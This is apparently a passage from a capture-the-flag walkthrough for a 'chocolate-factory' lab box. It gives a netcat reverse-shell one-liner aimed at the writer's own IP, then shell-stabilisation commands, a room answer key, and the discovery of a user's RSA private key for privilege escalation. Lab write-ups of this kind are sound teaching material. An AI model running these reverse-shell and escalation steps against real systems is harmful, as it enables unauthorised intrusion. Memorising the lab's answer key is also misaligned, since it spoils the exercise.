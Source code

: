 ***

Since we already know we got `RCE`, we can simply send ourselves a reverse shell using the following command:

```
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc IP 9001 >/tmp/f
```

You can use any other reverse shell, once we send the command, we notice this:

![](gitbook/cybersecurity/images/Pasted%20image%2020250408131435.png)

We can begin privilege escalation.

## PRIVILEGE ESCALATION

***

Let's stabilize our shell:

```
python3 -c 'import pty;pty.spawn("/bin/bash")'
/usr/bin/script -qc /bin/bash /dev/null
CTRL + Z
stty raw -echo; fg
reset xterm
export TERM=xterm
export BASH=bash
```

![](gitbook/cybersecurity/images/Pasted%20image%2020250408131704.png)

We can notice this at `/var/www/html`:

![](gitbook/cybersecurity/images/Pasted%20image%2020250408132425.png)

There's something called `key_rev_key`, if we check the strings of it:

![](gitbook/cybersecurity/images/Pasted%20image%2020250408132450.png)

We found a key, we can submit it as the first answer of the room:

```
-VkgXhFf6sAEcAwrC6YR-SZbiuSb8ABXeQuvhcGSQzY=
```

Now, let's proceed with our privilege escalation, we can notice an user at `/home` named `charlie`, inside of Charlie's home, we can see this:

![](gitbook/cybersecurity/images/Pasted%20image%2020250408132656.png)

We got a `teleport` and `teleport.pub` file, this seems like a private `RSA` key:

```
www-data@chocolate-factory:/home/charlie$ file teleport
teleport: PEM RSA private key
```
